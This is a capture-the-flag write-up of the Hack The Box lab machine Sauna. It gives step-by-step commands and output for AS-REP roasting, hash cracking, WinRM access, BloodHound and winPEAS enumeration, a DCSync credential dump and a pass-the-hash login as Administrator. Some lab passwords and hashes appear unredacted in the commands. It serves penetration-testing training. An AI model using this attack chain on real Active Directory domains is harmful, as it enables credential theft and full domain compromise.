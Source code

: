 ```yaml
---
title: HTB - Sauna
date: 2024-03-17
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, sauna, nmap, username-generator, username-anarchy, winpeas, getnpusers, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/sauna
published: true
image:
    path: machine_info.png
---
```


## HTB: Sauna

>[Sauna Box](https://app.hackthebox.com/machines/229)

![](sauna_htb_diagram.png){: .normal}

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|Enumerated web server|[Nmap](https://github.com/nmap/nmap), [Mozilla](https://www.mozilla.org/en-GB/firefox/new/)|Obtained first and last names of potential users|
|2|Created custom username list|[Username-Generator](https://github.com/shroudri/username_generator), [Username-Anarchy](https://github.com/urbanadventurer/username-anarchy)|-|
|3|ASREPRoasting|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _fsmith_|
|4|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|5|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|6|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated potential privilege escalation paths|
|7|Executed privileged escalation path|[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)|Obtained credentials of _svc\_loanmgr_|
|8|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

## Detailed attack chain reproduction steps

Performed a TCP all-ports scan and noted that:
  * Port 80 is an IIS web server with the title _Egotistical Bank_
  * Port 5985 allows WinRM access

```bash
$ sudo nmap 10.10.10.175 -T4 -A -open -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-17 16:06:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
49744/tcp open  msrpc         Microsoft Windows RPC
```

Enumerated the web server and created a custom user list based on the names found (Figure 1):

![Figure 1: First and last names found on the site.](sauna_site_users.png?600)

```bash
# created a list with the names found
$ cat site_users
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb

# created username combinations based on the first and last name
$ username-generator -w site_users > user_gen.lst
$ username-anarchy -i site_users >> user_gen.lst

# deduplicated the generated user list
$ sort user_gen.lst | uniq > user_combined.lst
```

Performed an **ASREPRoasting** attack:

```bash
$ getnpusers EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.10.10.175 -no-pass -usersfile user_combined.lst | grep asrep
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 fsmith_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6-850-gfafb277e0) starting

<SNIP>

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678:Th<REDACTED>23
```

Logged in via WinRM using and compromised the _**user.txt**_ file:

```bash
# logging in the target
$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23

<SNIP>

# compromising user.txt
*Evil-WinRM* PS C:\Users\FSmith\Documents> type ../Desktop/user.txt
0f5<REDACTED>48f
```

Collected domain information and generated visual representations of potential attack paths:

```bash
# uploading binary to target
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/sauna/SharpHound.exe to C:\Users\FSmith\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

# executing binary
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\SharpHound.exe -c all

<SNIP>

2024-03-17T11:42:59.9578257-07:00|INFORMATION|SharpHound Enumeration Completed at 11:42 AM on 3/17/2024! Happy Graphing!

# downlading output files to attack host
*Evil-WinRM* PS C:\Users\FSmith\Documents> download 20240317114259_BloodHound.zip

Info: Downloading C:\Users\FSmith\Documents\20240317114259_BloodHound.zip to 20240317114259_BloodHound.zip

Info: Download successful!
```

The below attack path (Figure 2) required SYSTEM-level access in order to be exploited:

![Figure 2: Potential attack path from fsmith user.](sauna_fsmith_attack_path.png)

A service account with DCSync rights was found (_**svc\_loanmgr**_) (Figure 3):

![Figure 3: A principal with DCSync rights over the domain.](sauna_dcsync_rights.png)

Performed further system enumeration and discovered _svc\_loanmgr_'s **clear text password**:

```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload winPEAS.exe

Info: Uploading /home/kali/htb/sauna/winPEAS.exe to C:\Users\FSmith\Documents\winPEAS.exe

Data: 2549076 bytes of 2549076 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEAS.exe

<SNIP>

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Mon<REDACTED>nd!

<SNIP>
```

Perfomed the **DCSync attack** and obtained the _**Administrator**_'s NTLMv2 hash:

```bash
$ secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad<REDACTED>4ee:823<REDACTED>98e:::
<SNIP>
```

Used _Administrator_'s hash to login via WinRM and compromised the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.175 -u administrator -p aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
f14<REDACTED>b8d5
```
